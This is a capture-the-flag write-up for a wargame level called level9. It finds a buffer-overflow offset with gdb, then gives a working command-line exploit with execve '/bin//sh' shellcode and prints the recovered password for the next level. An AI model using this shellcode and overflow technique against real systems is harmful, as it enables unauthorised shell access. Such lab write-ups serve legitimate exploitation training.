 # level9

main() 
This binary is written in cpp and there is no calls to /bin/sh, we'll have to use shellcode this time.
We should use the memcpy() on argv[1] in setAnnotation() to make the call to edx and run the shellcode.

## analysis
Lets check the offset for buffer overflow.

    $ gdb ./level9
    run Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2Ad3Ad4Ad5Ad6Ad7Ad8Ad9Ae0Ae1Ae2Ae3Ae4Ae5Ae6Ae7Ae8Ae9Af0Af1Af2Af3Af4Af5Af6Af7Af8Af9Ag0Ag1Ag2Ag3Ag4Ag5Ag
    info register  
    eax            0x41366441	1094083649
    [...]

41366441 -> A6dA

    $ echo 'Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2Ad3Ad4Ad5' | wc -c
    
> returns 109 including /0 so char count is 108 this is our offset

I want to find the address where it segfaults, so I gdb to segfault with 109 chars

    (gdb) r $(python -c 'print "A" * 109')
    The program being debugged has been started already.
    Start it from the beginning? (y or n) y

    Starting program: /home/user/level9/level9 $(python -c 'print "A" * 109')

    Program received signal SIGSEGV, Segmentation fault.
    0x54000000 in ?? ()
    (gdb) i r
    eax            0x804a078	134520952

## Final steps

The final exploit is:

pad -> 87 bytes
shellcode -> 21 bytes
address of segfault -> 0x804a078

    $ ./level9 `python -c 'print "A"*87 + "\x6a\x0b\x58\x99\x52\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x31\xc9\xcd\x80" + "\x78\xa0\x04\x08"'`
    $ cat /home/user/bonus0/.pass
    f3f0004b6f364cb5a4147e9ef827fa922a4861408845c26b6971ad770d906728


shell code:
http://shell-storm.org/shellcode/files/shellcode-575.html

"\x6a\x0b\x58\x99\x52\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x31\xc9\xcd\x80"

